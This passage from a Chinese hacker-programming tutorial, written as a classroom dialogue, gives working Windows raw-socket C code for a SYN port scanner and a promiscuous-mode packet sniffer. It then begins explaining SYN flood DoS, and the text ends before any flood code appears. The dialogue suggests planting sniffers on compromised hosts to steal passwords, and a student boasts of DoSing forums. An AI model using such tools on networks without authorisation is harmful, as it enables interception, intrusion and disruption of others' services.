“下面是 IP 和 TCP 头的结构，我们构造的数据包就是贮存在这个结构中。”

```c
typedef struct _iphdr
{
    unsigned char h_lenver;   // 4位首部长+4位IP版本号
    unsigned char tos;        // 8位服务类型TOS
    unsigned short total_len; // 16位总长度（字节）
    unsigned short ident;     // 16位标识
    unsigned short frag_and_flags; // 3位标志位
    unsigned char ttl;        // 8位生存时间TTL
    unsigned char proto;      // 8位协议（TCP、UDP、或其他）
    unsigned short checksum;  // 16位IP首部校验和
    unsigned int sourceIP;    // 32位源IP地址
    unsigned int destIP;      // 32位目的IP地址
} IP_HEADER;

typedef struct _tcphdr // 定义TCP首部
{
    USHORT th_sport;    // 16位源端口
    USHORT th_dport;    // 16位目的端口
    unsigned int th_seq; // 32位序列号
    unsigned int th_ack; // 32位确认号
    unsigned char th_lenres; // 4位首部长度/6位保留字
    unsigned char th_flag;   // 6位标志位
    USHORT th_win;      // 16位窗口大小
    USHORT th_sum;      // 16位校验和
    USHORT th_urp;      // 16位紧急数据偏移量
} TCP_HEADER;

struct   // 定义TCP伪首部
{
    unsigned long saddr; // 源地址
    unsigned long daddr; // 目的地址
    char mbz;
    char ptcl; // 协议类型
    unsigned short tcpl; // TCP长度
} psd_header;

// SOCK错误处理程序
void CheckSockError(int iErrorCode, char *pErrorMsg)
{
    if(iErrorCode==SOCKET_ERROR)
    {
        ...
        printf("%s Error:%d\n", pErrorMsg, GetLastError());
        closesocket(sockRaw);
        ExitProcess(-1);
    }
}
```

“目标收到 SYN 数据包，要对其进行校验，目的是保证数据包的正确性。由于我们是自己构造数据包，所以要自己进行计算校验和。利用到的函数如下：”

```c
// 计算校验和
USHORT checksum(USHORT *buffer, int size)
{
    unsigned long cksum=0;
    while (size > 1)
    {
        cksum += *buffer++;
        size -= sizeof(USHORT);
    }
    if (size)
    {
        cksum += *(UCHAR*)buffer;
    }
    cksum = (cksum >> 16) + (cksum & 0xffff);
    cksum += (cksum >> 16);
    return (USHORT)(~cksum);
}
```

“以下是 IP 解包函数，分析接收到的 SYN 数据包，以确定目标端口是否开放。”

```c
// IP解包函数
bool DecodeIPHeader(char *buf, int bytes)
{
    IP_HEADER *iphdr;
    TCP_HEADER *tcphdr;
    unsigned short iphdrlen;
    iphdr = (IP_HEADER *)buf;
    iphdrlen = sizeof(unsigned long) * (iphdr->h_lenver & 0xf);
    tcphdr = (TCP_HEADER*)(buf + iphdrlen);
    // 是否来自目标IP
    if(iphdr->sourceIP != dest.sin_addr.s_addr) return false;

    // 序列号是否正确
    if((ntohl(tcphdr->th_ack) != (SEQ+1)) && (ntohl(tcphdr->th_ack) != SEQ)) return false;

    // if(tcphdr->th_flag == 20) return true;
    // 20 端口关闭的标志，可以不做处理以提高速度

    if(tcphdr->th_flag == 18)   // SYN/ACK - 扫描到一个端口
    {
        printf("\t%d\t open \n", ntohs(tcphdr->th_sport));
        return true;
    }
    return true;
}
```

“显示帮助信息的函数：”

```c
void usage(void)
{
    printf("\t==============SYN portscaner================\n");
    printf("\t===========gxjsone@hotmail.com     2004/7/6==========\n");
    printf("\t===========Welcome to www.hackerxfiles.net===========\n");
    printf("\tusage: synscan DomainName [IP] StartPort_EndPort\n");
    printf("\tExample: synscan www.163.com 1-139\n");
    printf("\tExample: synscan 192.168.1.1 8000-9000\n");
}
```

“下面是监听的线程函数，主要用到的是 raw sock。”

```c
DWORD WINAPI RecvThread(LPVOID para)   // 接收数据线程函数
{
    int iErrorCode;  // sock 错误代码
    struct hostent *hp;
    char RecvBuf[65535] = {0};  // 接收数据的缓冲区
    // 使用 SOCK_RAW，接收 TCP 数据
    sockListen = socket(AF_INET, SOCK_RAW, IPPROTO_IP);
    CheckSockError(sockListen, "socket");  // 检查错误

    // 设置 IP 头操作选项
    BOOL bOpt = true;
    iErrorCode = setsockopt(sockRaw, IPPROTO_IP, IP_HDRINCL, (char *)&bOpt, sizeof(bOpt));
    CheckSockError(iErrorCode, "setsockopt()");

    // 获得本地 IP
    SOCKADDR_IN sa;
    unsigned char LocalName[256];

    iErrorCode = gethostname((char*)LocalName, sizeof(LocalName)-1);
    CheckSockError(iErrorCode, "gethostname()");
    if((hp = gethostbyname((char*)LocalName)) == NULL)
    {
        CheckSockError(SOCKET_ERROR, "gethostbyname()");
    }
    memcpy(&sa.sin_addr.S_un.S_addr, hp->h_addr_list[0], hp->h_length);
    sa.sin_family = AF_INET;
    sa.sin_port = htons(7000);
    // 绑定任意端口
    iErrorCode = bind(sockListen, (PSOCKADDR)&sa, sizeof(sa));
    CheckSockError(iErrorCode, "bind");

    // 设置 SOCK_RAW 为 SIO_RCVALL，以便接收所有的 IP 包
    DWORD dwBufferLen[10];
    DWORD dwBufferInLen = 1;
    DWORD dwBytesReturned = 0;
    iErrorCode = WSAIoctl(sockListen, SIO_RCVALL, &dwBufferInLen, sizeof(dwBufferInLen), &dwBufferLen, sizeof(dwBufferLen), &dwBytesReturned, NULL, NULL);
    CheckSockError(iErrorCode, "ioctl");
    memset(RecvBuf, 0, sizeof(RecvBuf));

    // 接收数据
    for(;;) // for(;;) 比 while(true) 要快哦，看汇编就会知道
    {
        iErrorCode = recv(sockListen, RecvBuf, sizeof(RecvBuf), 0);
        DecodeIPHeader(RecvBuf, iErrorCode);
    }
    if(ScanOK) // 如果扫描完成，就关闭套接字并结束本监听线程
    {
        closesocket(sockListen);
        return 0;
    }
}
```

“进度提示函数：”

```c
void playx(void) // 定义状态提示函数
{
    // 进度条
    char *plays[12] = {
        "|",
        "/",
        "-",
        "\\",
        "..."
    };

    ...
    printf("=%s=\r", plays[play]);
    play = (play==11) ? 0 : play+1;
    Sleep(2);
}
```

“上面显示进度的函数是在主线程发送数据时显示的，这里必须设置一个 Sleep() 函数。如果不设置，可能会令扫描结果出现错误，这是由于主线程发送 SYN 包的速度非常快，有可能监听线程处理返回数据不够快而丢失了 SYN 包。在机器配置或网速较慢的环境里适当提高这个 Sleep() 的数值可以提高扫描的准确性。大家可以加多一个参数作为这个 Sleep 的值，这就留给你们自己去改进了。”

“以下是主函数：”

```c
int main(int argc, char **argv)
{
    char *p;
    if(argc != 3) // 判断参数个数
    {
        usage();   // 显示帮助信息
        return 0;
    }

    p = argv[2];    // 处理端口参数
    if(strstr(argv[2], "-"))
    {
        DEST_PORT = atoi(argv[2]);
        for(; *p; )
            if(*(p++)=='-') break;
        DEST_PORTEND = atoi(p);

        if(DEST_PORT < 1 || DEST_PORTEND > 65535)
        {
            printf("Port Error!\n");
            return 0;
        }
    }
    ...
}
```

```c
DEST_HOST = argv[1];    // 取得目标主机域名或IP

usage();
int iErrorCode;
int datasize;
struct hostent *hp;
IP_HEADER ip_header;
TCP_HEADER tcp_header;
char SendBuf[128] = {0};

// 初始化SOCKET
WSADATA wsaData;
iErrorCode = WSAStartup(MAKEWORD(2,2), &wsaData);
CheckSockError(iErrorCode, "WSAStartup()");
sockRaw = socket(AF_INET, SOCK_RAW, IPPROTO_IP);
CheckSockError(sockRaw, "socket()");
sockListen = socket(AF_INET, SOCK_RAW, IPPROTO_IP);
CheckSockError(sockListen, "socket");

// 设置IP头操作选项
BOOL bOpt = true;
iErrorCode = setsockopt(sockRaw, IPPROTO_IP, IP_HDRINCL, (char *)&bOpt, sizeof(bOpt));
CheckSockError(iErrorCode, "setsockopt()");

// 获得本地IP
SOCKADDR_IN sa;
unsigned char LocalName[256];

iErrorCode = gethostname((char*)LocalName, sizeof(LocalName)-1);
CheckSockError(iErrorCode, "gethostname()");
if((hp = gethostbyname((char*)LocalName)) == NULL)
{
    CheckSockError(SOCKET_ERROR, "gethostbyname()");
}

memcpy(&sa.sin_addr.S_un.S_addr, hp->h_addr_list[0], hp->h_length);

sa.sin_family = AF_INET;
sa.sin_port = htons(7000);
iErrorCode = bind(sockListen, (PSOCKADDR)&sa, sizeof(sa));
CheckSockError(iErrorCode, "bind");

// 获得目标主机IP
```

```c
memset(&dest, 0, sizeof(dest));
dest.sin_family = AF_INET;
dest.sin_port = htons(DEST_PORT);
if ((dest.sin_addr.s_addr = inet_addr(DEST_HOST)) == INADDR_NONE)
{
    if ((hp = gethostbyname(DEST_HOST)) != NULL)
    {
        memcpy(&(dest.sin_addr), hp->h_addr_list[0], hp->h_length);
        dest.sin_family = hp->h_addrtype;
        printf("dest sin_addr = %s\n", inet_ntoa(dest.sin_addr));
    }
    else
    {
        CheckSockError(SOCKET_ERROR, "gethostbyname()");
    }
}

// 开启监听线程
HANDLE Thread = CreateThread(NULL, 0, RecvThread, 0, 0, 0);

// 填充IP首部
ip_header.h_lenver = (4 << 4 | sizeof(ip_header) / sizeof(unsigned long));
// 高四位IP版本号，低四位首部长
ip_header.total_len = htons(sizeof(IP_HEADER) + sizeof(TCP_HEADER));
// 16位总长度（字节）
ip_header.ident = 1;    // 16位标识
ip_header.frag_and_flags = 0;    // 3位标志位
ip_header.ttl = 128;    // 8位生存时间TTL
ip_header.proto = IPPROTO_TCP;   // 8位协议(TCP, UDP...)
ip_header.checksum = 0;  // 16位IP首部校验和
ip_header.sourceIP = sa.sin_addr.s_addr;   // 32位源IP地址
ip_header.destIP = dest.sin_addr.s_addr;   // 32位目的IP地址

// 填充TCP首部
tcp_header.th_sport = htons(7000);   // 源端口号
tcp_header.th_lenres = (sizeof(TCP_HEADER) / 4 << 4 | 0);   // TCP长度和保留位
tcp_header.th_win = htons(16384);    // 窗口大小

// 填充TCP伪首部（用于计算校验和，并不真正发送）
psd_header.saddr = ip_header.sourceIP;
psd_header.daddr = ip_header.destIP;
psd_header.mbz = 0;
psd_header.ptcl = IPPROTO_TCP;
psd_header.tcpl = htons(sizeof(tcp_header));

Sleep(100);
printf("\n");
printf("Scanning %s\n", DEST_HOST);
start = clock(); // 开始计时
for (; DEST_PORT < DEST_PORTEND; DEST_PORT++) // 循环发送 SYN 数据包
{
    playx(); // 显示扫描状态
    tcp_header.th_dport = htons(DEST_PORT); // 目的端口号
    tcp_header.th_ack = 0; // ACK序列号置为0
    tcp_header.th_flag = 2; // SYN 标志
    tcp_header.th_seq = htonl(SEQ); // SYN序列号
    tcp_header.th_urp = 0; // 偏移
    tcp_header.th_sum = 0; // 校验和

    // 计算TCP校验和，计算校验和时需要包括TCP pseudo_header
    memcpy(SendBuf, &psd_header, sizeof(psd_header));
    memcpy(SendBuf + sizeof(psd_header), &tcp_header, sizeof(tcp_header));
    tcp_header.th_sum = checksum((USHORT *)SendBuf, sizeof(psd_header) + sizeof(tcp_header));

    // 计算IP校验和
    memcpy(SendBuf, &ip_header, sizeof(ip_header));
    memcpy(SendBuf + sizeof(ip_header), &tcp_header, sizeof(tcp_header));
    memset(SendBuf + sizeof(ip_header) + sizeof(tcp_header), 0, 4);
    datasize = sizeof(ip_header) + sizeof(tcp_header);
    ip_header.checksum = checksum((USHORT *)SendBuf, datasize);

    // 填充发送缓冲区
    memcpy(SendBuf, &ip_header, sizeof(ip_header));

    // 发送TCP报文
    iErrorCode = sendto(sockRaw, SendBuf, datasize, 0, (struct sockaddr*)&dest, sizeof(dest));
    CheckSockError(iErrorCode, "sendto()");
}

end = clock(); // 计时结束
ScanOK = TRUE; // 扫描完成
printf("Closing Thread......\n");
WaitForSingleObject(Thread, 5000); // 等待监听线程返回
CloseHandle(Thread); // 关闭线程句柄，释放资源

costtime = (float)(end - start) / CLOCKS_PER_SEC; // 转换时间格式
printf("Cost time:%f Sec", costtime);   // 显示耗时

// 退出前清理
if (sockRaw != INVALID_SOCKET) closesocket(sockRaw);
WSACleanup();
return 0;
}
```

“好了，一个极速SYN扫描器就完工了。现在，我再给一些提示，让大家动手来完善这个SYN扫描器。”

“什么提示呀？”我是良民问道。

“首先就是要处理多网卡的问题。如果一台机器上有多块网卡，那么这个监听线程就只是监听某一网卡上的数据。具体是哪个网卡是由上面的 `memcpy(&sa.sin_addr.S_un.S_addr,hp->h_addr_list[0],hp->h_length);` 中的 `h_addr_list[0]` 来确定，所有网卡标识在 `h_addr_list[]` 中。如果有两块网卡，那么就可能要用 `h_addr_list[1]` 来监听。如果监听内网的网卡，而又去扫描外网的IP，那么监听线程就不会接收到任何数据。解决办法：可以为每个网卡开一个监听线程，具体的就让大家自己动脑筋了（或者用参数的形式来选择要监听的网卡，例如扫描外网就输入外网网卡的代号等，相信这点简单的东西不会难到大家的）。”

“为了方便大家，我也写了一个获取本机所有IP的程序，代码如下：”

```c
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib,"ws2_32.lib")

int main()
{
    //////////////////
    // 初始化 Windows sockets API
    //
    WORD wVersionRequested = MAKEWORD(2, 2);
    WSADATA wsaData;
    if (WSAStartup(wVersionRequested, &wsaData)) {
        printf("WSAStartup failed %s\n", WSAGetLastError());
        return 0;
    }

    //////////////////
    // 获得主机名
    //
    char hostname[256];
    int res = gethostname(hostname, sizeof(hostname));
    if (res != 0) {
        printf("Error: %u\n", WSAGetLastError());
        return 0;
    }

    printf("hostname=%s\n", hostname);

    //--------------------------------
    // 根据主机名获取主机信息
    //
    hostent* pHostent = gethostbyname(hostname);
    if (pHostent == NULL) {
        printf("Error: %u\n", WSAGetLastError());
        return 0;
    }

    //--------------------------------
    // 解析返回的 hostent 信息
    //
    hostent& he = *pHostent;
    printf("name=%s aliases=%s\naddrtype=%d\nlength=%d\n",
        he.h_name, he.h_aliases, he.h_addrtype, he.h_length);

    sockaddr_in sa;
    // 根据 he.h_addr_list[nAdapter] 是否为空来获取所有 IP 地址
    for (int nAdapter = 0; he.h_addr_list[nAdapter]; nAdapter++) {
        memcpy(&sa.sin_addr.s_addr, he.h_addr_list[nAdapter], he.h_length);
        // 输出机器的 IP 地址
        printf("Address (%d): %s\n", nAdapter, inet_ntoa(sa.sin_addr));
        // 显示地址串
    }

    //--------------------------------
    // 终止 Windows sockets API
    //
    WSACleanup();
    return 0;
}
```

“其次就是扫描多 IP，本 SYN 扫描器只对一个 IP 地址进行端口扫描。大家可以在扫描端口的 for 循环上再加上一个 IP 的循环，这样就可实现多 IP 的扫描了。但同时也要修改 DecodeIPHeader() 这个 IP 解包函数，要把开放的端口是属于哪台主机的也要显示出来，否则扫出开放端口但不知道是哪台主机的，还有什么实用性可言？”

“再者就是如何判断目标端口是否被防火墙过滤。”

“这个功能好啊！可以判断对方是否安装了防火墙。那该怎么实现呢？”冰眼说道。

“我们这个 SYN 扫描器是根据目标主机返回的 SYN 包的标志来判断端口开放与否。18 为开放，20 为关闭。即如果某个端口返回的标志是 20，就表明该端口是关闭的。但如果某个端口被防火墙过滤的话，防火墙就会把发送到该端口的 SYN 包丢弃。这样我们就不能接收到返回标志为 20 的 SYN 包。根据这个原理，可以估计目标端口是否被防火墙过滤（但也不排除数据包丢失的……）”

“大家编译 synscan.cpp 时请注意哦（光盘有收录），如果是 ADSL 用户，可能要把代码里的 `hp->h_addr_list[0]` 改为 `hp->h_addr_list[1]` 才能扫描，具体是 `[0]` 还是 `[1]` 或者其它，可以先编译 getallIP.cpp（光盘有收录）来获取外网 IP 的网卡代号。例如编译 getallIP.cpp 后得到以下输出：”

```text
Address [0]: 192.168.1.2
Address [1]: 218.10.14.151（公网IP）
```

“那么想扫描外网的话，就要把 synscan.cpp 里的 `hp->h_addr_list[0]` 改为 `hp->h_addr_list[1]` 了。”

### 3.2 一个简单嗅探软件的实现

- 前置知识：嗅探原理、socket raw 编程
- 难度：中
- 编译环境：VC6.0 + Win2000
- 测试环境：Win2000 + 局域网和 ADSL

“今天我给大家介绍一个嗅探程序的实现。我想问问大家，嗅探器有什么用途呢？”

“嗯，大概就是网络数据包的分析吧，对不对？谷大哥。”蓝狐答道。

“对，嗅探器的最大用途就是网络数据包的分析。我们可以利用嗅探器来监视本机网络数据包的进出情况。另外，如果在肉鸡上安装嗅探器，还可窃取其上面用户的很多密码哦！如果我们在局域网内（集线器），还可获取别人网络连接的很多信息。因此，嗅探器的用途还是很大的。”

“谷大哥，能为我们介绍一下嗅探器的原理么？”

“当然可以，首先看看以太网（也就是利用集线器连接成的网络）。”

#### 小知识：以太网嗅探器的原理

以太网的数据传输基于“共享”原理：所有同一本地网范围内的计算机共同接收到相同的数据包。这意味着计算机之间的通讯都是透明可见的，但以太网卡都构造了硬件的“过滤器”，这个过滤器将忽略掉一切和自己无关的网络信息。事实上是忽略掉了与自身 MAC 地址不符合的信息。嗅探程序正是利用了这个特点，它主动关闭了这个过滤器，即把网卡设置成“混杂模式”。因此，嗅探程序就能接收到整个以太网内的网络数据信息了。

“现在大部分网络都属于交换式网络。在交换式网络环境下，数据包会由交换机发送到指定的网络地址，这样一来，如果要想进行嗅探就很困难了。所以，下面将介绍的程序不适用于交换网络，只适用于集线器 HUB 连接的网络（现在很多大学宿舍都是利用的集线器）。如果你想分析本机与外部的连接状况，本程序也能起到一定的作用。”

“那我们如何编程实现呢？”多多喵问道。

## 第二章 黑客编程实例

“我们前面的 SYN 扫描器里就有一个线程是监听返回的 SYN 数据包。其实那就是一个简单的嗅探器。”

“嗅探器是通过原始套接字（raw socket）来实现的，这也有别于通常使用的数据流套接字和数据报套接字。在创建了原始套接字后，需要通过 setsockopt() 函数来设置 IP 头操作选项，然后再通过 bind() 函数将原始套接字绑定到本地网卡（如果有多张网卡，就要指定要嗅探哪个网卡或者选择全部嗅探）。”

“为了让原始套接字能接受所有数据，还需要通过 ioctlsocket() 来进行设置，而且还可指定是否亲自处理 IP 头。至此，就可开始对网络数据包进行嗅探了，对数据包的获取仍像流式套接字或数据报套接字那样，通过 recv() 函数来完成。但与其他两种套接字不同的是，原始套接字此时捕获到的数据包并不仅仅是单纯的数据信息，而是包含有 IP 头、TCP 头等信息头的最原始数据信息，这些信息保留了它在网络传输时的原貌。通过对这些在低层传输的原始信息的分析，可以得到有关网络的一些信息。由于这些数据经过了网络层和传输层的打包，因此需要根据其附加的首部对数据包进行分析。”

“下面先给出结构，数据包的总体结构如下：”

| IP首部 | TCP首部 | TCP数据段 |
|---|---|---|

“如上所示，一个TCP包由三部分构成：20字节的IP首部、20字节的TCP首部与不定长的数据段（实际操作时，可能会有可选的IP选项，这种情况下TCP首部向后顺延）。”

“IP首部的结构如下：”

| 版本 | 长度 | 八位服务类型 | 十六位总长度 |
|---|---|---|---|
| 十六位标识 | 标志 | 十三位片偏移 |  |
| 八位生存时间 | 八位协议 | 十六位首部校验和 |  |
| 三十二位源IP地址 |  |  |  |
| 三十二位目的IP地址 |  |  |  |
| 选项（若有） |  |  |  |
| 数据 |  |  |  |

“对应的结构为：”

```c
struct IPHEAD //定义IP首部
{
    unsigned char h_len:4;   //4位首部长度+4位IP版本号
    unsigned char ver:4;
    unsigned char tos;       //8位服务类型TOS
    unsigned short total_len; //16位总长度（字节）
    unsigned short ident;    //16位标识
    unsigned short frag_and_flags; //3位标志位
    unsigned char ttl;       //8位生存时间 TTL
    unsigned char proto;     //8位协议（TCP、UDP 或其他）
    unsigned short checksum; //16位IP首部校验和
    unsigned int sourceip;   //32位源IP地址
    unsigned int destip;     //32位目的IP地址
};
```

“TCP首部的数据结构为：”

| 十六位源端口号 | 十六位目标端口号 |
|---|---|
| 三十二位序列号 |  |
| 三十二位确认号 |  |
| 四位首部长度 | 六位保留位 \| U \| A \| P \| R \| S \| F \| 十六位窗口大小 |
| 十六位校验和 | 十六位紧急指针 |
| 选项（若有） |  |
| 数据（若有） |  |

“对应的结构为：”

```c
struct TCPHEAD //定义TCP首部
{
    USHORT th_sport;   //16位源端口
    USHORT th_dport;   //16位目的端口
    unsigned int th_seq; //32位序列号
    ...
};
```

## 第三章 黑客编程实例

```c
unsigned int th_ack;    //32位确认号
unsigned char th_lenres;    //4位首部长度/6位保留字
unsigned char th_flag;    //6位标志位
USHORT th_win;    //16位窗口大小
USHORT th_sum;    //16位校验和
USHORT th_urp;    //16位紧急数据偏移量
};
```

“我们首先要建立 raw socket，以接收原始数据。还在用 Win9x 的用户赶快换系统哦，因为 Win9x 不支持 raw socket 编程。”

“还有人用 Win9x 系统吗？这么落后啊？”冰眼笑道。

“我们先定义一个接收数据的缓冲区，把接收到的数据放进这个缓冲区中，再把数据类型转换成 IP 头结构或 TCP 头结构，这样就能读取其中的信息了。”

```c
piphd=(struct IPHEAD *)cbuf;    // 取得IP头数据的地址
int ilphLen = sizeof(unsigned long) * (piphd->h_len & 0xf);    //计算IP头长度
ptcphd=(struct TCPHEAD *)(cbuf+ilphLen);    // 取得TCP头数据的地址。
```

“以后就可以在 piphd 和 ptcphd 这两个结构中取得有关信息了。下面为完整代码：”

```c
#include <stdio.h>
#include <winsock2.h>
#include <ws2tcpip.h>
#pragma comment (lib, "ws2_32.lib")
#define SIO_RCVALL _WSAIOW(IOC_VENDOR,1)

struct IPHEAD // 定义IP首部
{
    unsigned char h_len:4;    //4位首部长度+4位IP版本号
    unsigned char ver:4;
    unsigned char tos;    //8位服务类型TOS
    unsigned short total_len;    //16位总长度（字节）
    unsigned short ident;    //16位标识
    unsigned short frag_and_flags;    //3位标志位
    unsigned char ttl;    //8位生存时间 TTL
    unsigned char proto;    //8位协议（TCP、UDP 或其他）
    unsigned short checksum;    //16位IP首部校验和
    unsigned int sourceip;    //32位源IP地址
    unsigned int destip;    //32位目的IP地址
};

struct TCPHEAD // 定义TCP首部
{
    USHORT th_sport;    //16位源端口
    USHORT th_dport;    //16位目的端口
    unsigned int th_seq;    //32位序列号
    unsigned int th_ack;    //32位确认号
    unsigned char th_lenres;    //4位首部长/6位保留字
    unsigned char th_flag;    //6位标志位
    USHORT th_win;    //16位窗口大小
    USHORT th_sum;    //16位校验和
    USHORT th_urp;    //16位紧急数据偏移量
};

char *phostlist[10];    //列举主机网卡的数组

DWORD __stdcall listen(void *p)    //监听线程
{
    SOCKET s;
    struct sockaddr_in addr;
    int itimeout=1000;
    int ret;
    char cbuf[1500];    //接收数据缓冲区
    struct IPHEAD *piphd;    //定义IP头结构
    struct TCPHEAD *ptcphd;    //定义TCP头结构

    s=socket(AF_INET,SOCK_RAW,IPPROTO_RAW);    //创建一个原始套接字
    setsockopt(s,SOL_SOCKET,SO_RCVTIMEO,(char*)&itimeout,sizeof(itimeout));
    memset(&addr,0,sizeof(addr));
    addr.sin_family=AF_INET;
    addr.sin_addr.S_un.S_addr=inet_addr((char *)p);    //设置本地地址
    addr.sin_port=htons(6000);    //设置本地端口号
    bind(s,(struct sockaddr *)&addr,sizeof(addr));    //绑定端口

    // 设置 sock_raw 为 sio_rcvall，以便接收所有IP包
    DWORD dwin=1;
    DWORD dwout[10];
    DWORD dwret;
    WSAIoctl(s,SIO_RCVALL,&dwin,sizeof(dwin),&dwout,sizeof(dwout),&dwret,NULL,NULL);

    for(;;)    //循环接收数据
    {
        ret=recv(s,cbuf,sizeof(cbuf),0);    //接收数据
        if(ret==SOCKET_ERROR)
        {
            if(WSAGetLastError()==WSAETIMEDOUT) continue;
            closesocket(s);
            return 0;
        }

        piphd=(struct IPHEAD *)cbuf;  // 取得IP头数据的地址
        int iiphLen = sizeof(unsigned long) * (piphd->h_len & 0xf);
        ptcphd=(struct TCPHEAD *)(cbuf+iiphLen);  // 取得TCP头数据的地址

        printf("From : %s \t port %d\t", inet_ntoa(*(struct in_addr*)&piphd->sourceip), ntohs(ptcphd->th_sport));
        printf("To : %s \t port %d ", inet_ntoa(*(struct in_addr*)&piphd->destip), ntohs(ptcphd->th_dport));

        switch(piphd->proto)  // 根据IP头的协议判断数据包协议类型
        {
            case 1:
                printf("ICMP\n");
                break;
            case 2:
                printf("IGMP\n");
                break;
            case 6:
                printf("TCP\n");
                break;
            case 17:
                printf("UDP\n");
                break;
            default:
                printf("unknow:%d\n", piphd->proto);
        }
    }

    return 1;
}

void main()
{
    // 初始化sock
    WSADATA wsa;
    int i=0;
    DWORD dwtid;
    char chname[128];
    hostent *host;

    WSAStartup(MAKEWORD(2,1),&wsa);
    gethostname(chname,sizeof(chname));
    host=gethostbyname(chname);

    while(host->h_addr_list[i]!=NULL) //取所有网卡序号，为每个网卡开启一个监听线程
    {
        phostlist[i]=(char *)malloc(16);
        sprintf(phostlist[i],"%s",inet_ntoa(*(struct in_addr *)host->h_addr_list[i]));
        printf("Bind to %s\n",phostlist[i]);
        CreateThread(NULL,0,listen,phostlist[i],0,&dwtid);
        i++;
    }

    //为每个网卡创建监听线程后，要用一个循环防止主线程退出，如果只有一张网卡，可以定义一个线程句柄再
    //用WaitForSingleObject()函数来等待。
    for(;;)
    {
        Sleep(10);
    }
}
```

“这里介绍的以原始套接字方式对网络数据进行捕获的方法实现起来比较简单。作为一个嗅探器演示程序，功能当然不完善，因为没有对数据部分进行分析，大家可以根据实际情况来完善。TCP 首部之后的就是数据段，只要把指针后移就可以读取了。”

“本程序就介绍到此，希望通过本文的介绍，大家可以对原始套接字的使用方法以及 TCP/IP 协议结构原理等知识有个基本认识，同时也希望大家可以自己动手写出高效的嗅探程序。”

### 3.3 多线程 DoS 程序

- 前置知识：Socket raw 编程、多线程
- 难度：中
- 编译环境：VC6.0 + Win2000
- 测试环境：Win2000 + 局域网


#### 3.3.1 DoS 原理

“大家肯定玩过 DoS 吧？”

“嗯，当我搞不定一台肉鸡时，我都会 DoS 它，以发泄一番。看哪个论坛不顺，也会 DoS 它！”我是良民说道。

!@#￥%……

“下面我为大家介绍一下 DoS 攻击程序的原理和实现，但目的不是叫大家去 DoS 人，我是希望大家从中能学到这方面的技术，而不是教会你们去破坏！如果你们的初衷是搞破坏，我倒不如不讲。”

“大哥，不要啦，还是说说吧！我们可是交了钱来学编程的，不是想搞破坏，我们保证，行了吗？”蓝狐说道。

“‘保证’什么啊？‘保证’去做坏事啊？”

!@#￥……

“晕！我们保证不搞破坏，行了吧！”我是良民也强调道。

“那好吧！大家先来看看 DoS 的基本原理和代码实现吧！”

> **小知识：DoS 的基本原理**  
> SYN（Synchronize sequence numbers）Flood 是当前最流行的 DoS（拒绝服务攻击）方式之一，它利用 TCP 协议缺陷发送大量伪造的 TCP 连接请求，从而使被攻击方资源耗尽（CPU 满负荷或内存不足），或阻止正常用户访问主机服务。在 SYN Flood 攻击中，攻击者使用大量伪装的 IP 地址向目标计算机发送网络连接请求，以占用目标计算机尽量多的资源，从而使正常用户不能连接到服务器，导致服务器拒绝服务。

“为什么可以使正常用户连接不到服务器呢？”多多喵问道。

“要明白这种攻击原理，需要涉及到 TCP 建立连接的 3 次握手原理（Three-way Handshake）。”

“一个 TCP 连接的过程是这样的：首先，客户端发送一个包含 SYN 标志的 TCP 报文，向服务器某一端口表示需要连接，如发送包假设请求序号为 10，那么则为：SYN=10，ACK=0，然后等待服务器的响应。”

“第二步：服务器接收到这样的请求后，查看该端口是否处在 LISTEN 状态，如果不是，就发送 RST=1 应答，拒绝建立连接。如果该端口处在 LISTEN 状态，那么服务器发送报文确认，ACK 位则是客户端的请求序号加 1，变成：SYN=10，ACK=1，用这样的数据发送给客户端。向客户端表示服务器连接已经准备好了，等待客户端的确认。这时客户端接收到消息后，分析得到的信息，准备发送确认连接信号到服务器。”

“第三步：客户端发送确认建立连接的消息给服务器。确认信息的 SYN 位是服务器发送的 ACK 位，ACK 位是服务器发送的 SYN 位加 1。即：SYN=11，ACK=11。这时，连接已经建立起来了。”

“以上连接过程在 TCP 协议中被称为三次握手。当目标计算机收到请求后，就会使用一些系统资源来为新的连接提供服务，接着回复 SYN-ACK。但假如一个用户向服务器发送了 SYN 报文后突然死机或掉线，那么服务器在发出 SYN+ACK 应答报文后无法再收到客户端的 ACK 报文（第三次握手无法完成）。一些系统都有缺省的回复次数和超时时间，这种情况下服务器端一般会重新发送 SYN+ACK 给客户端，只有达到一定次数或者超时，占用的系统资源才会被释放。这段时间的长度我们称为 SYN Timeout，一般来说，这个时间是分钟的数量级（大约为 30 秒—2 分钟），Windows 中缺省设置为可重复发送 SYN-ACK 答复 5 次。一个用户出现异常导致服务器的一个线程等待 1 分钟，并不是很大的问题，但如果有一个恶意程序大量模拟这种情况，服务器端将为了维护一个非常大的半连接列表而消耗非常多的资源。数以万计的半连接，即使是简单的保存并遍历也会消耗非常多的 CPU 时间和内存，何况还要不断对这个列表中的 IP 进行 SYN+ACK 的重试。即使服务器端的系统足够强大，服务器端也将忙于处理攻击者伪造的 TCP 连接请求，而无暇理睬客户端的正常请求（毕竟客户端的正常请求比率非常之小），此时从正常客户的角度看来，服务器失去响应了。”

“为了大家能更好地理解，我将用 DoS 程序对本机的 139 端口进行 SYN Flood 攻击，然后用 netstat 命令可看到图 3-5 所示的情况。”

